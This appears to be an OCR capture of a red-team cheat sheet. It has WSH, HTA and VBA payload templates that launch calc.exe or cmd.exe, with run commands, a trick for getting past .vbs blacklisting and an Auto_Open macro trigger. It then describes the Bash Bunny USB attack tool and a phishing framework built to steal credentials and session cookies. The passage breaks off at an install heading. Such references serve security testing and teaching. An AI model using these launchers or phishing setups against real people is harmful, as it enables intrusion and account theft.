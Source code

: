 🔙WSH
Creating payload:

Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
Execute:

wscript payload.vbs
cscript.exe payload.vbs
wscript /e:VBScript payload.txt //If .vbs files are blacklisted
🔙HTA
Creating payload:

<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
Execute: Run file

🔙VBA
Creating payload:

Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
Execute: Set function to Auto_Open() in macro enabled document

Initial Access
🔙Bash Bunny
The Bash Bunny is a physical USB attack tool and multi-function payload delivery system. It is designed to be plugged into a computer's USB port and can be programmed to perform a variety of functions, including manipulating and exfiltrating data, installing malware, and bypassing security measures.

hackinglab: Bash Bunny – Guide

Hak5 Documentation

Nice Payload Repo

Product Page

image

🔙EvilGoPhish
evilginx2 + gophish. (GoPhish) Gophish is a powerful, open-source phishing framework that makes it easy to test your organization's exposure to phishing. (evilginx2) Standalone man-in-the-middle attack framework used for phishing login credentials along with session cookies, allowing for the bypass of 2-factor authentication

Install:
